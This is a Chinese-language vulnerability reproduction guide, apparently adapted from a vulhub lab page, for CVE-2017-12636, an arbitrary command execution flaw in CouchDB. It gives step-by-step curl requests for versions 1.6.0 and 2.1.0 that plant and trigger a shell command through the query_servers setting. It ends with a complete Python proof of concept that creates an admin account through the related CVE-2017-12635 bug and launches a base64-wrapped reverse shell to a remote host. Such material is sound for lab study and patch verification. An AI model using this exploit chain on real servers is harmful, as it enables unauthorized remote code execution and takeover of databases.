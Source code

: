 （CVE-2017-12636）Couchdb 任意命令执行漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config
api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

Couchdb
2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

    docker-compose up -d

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node
name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

    curl http://vulhub:vulhub@www.0-sec.org:5984/_membership

![](resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId29.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'

![](resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId30.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

Couchdb
2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId32.png)

    #!/usr/bin/env python3
    import requests
    import json
    import base64
    from requests.auth import HTTPBasicAuth

    target = 'http://your-ip:5984'
    command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
    version = 1

    session = requests.session()
    session.headers = {
        'Content-Type': 'application/json'
    }
    # session.proxies = {
    #     'http': 'http://127.0.0.1:8085'
    # }
    session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
      "type": "user",
      "name": "wooyun",
      "roles": ["_admin"],
      "roles": [],
      "password": "wooyun"
    }''')

    session.auth = HTTPBasicAuth('wooyun', 'wooyun')

    command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
    if version == 1:
        session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
    else:
        host = session.get(target + '/_membership').json()['all_nodes'][0]
        session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

    session.put(target + '/wooyun')
    session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

    if version == 1:
        session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
    else:
        session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12636/
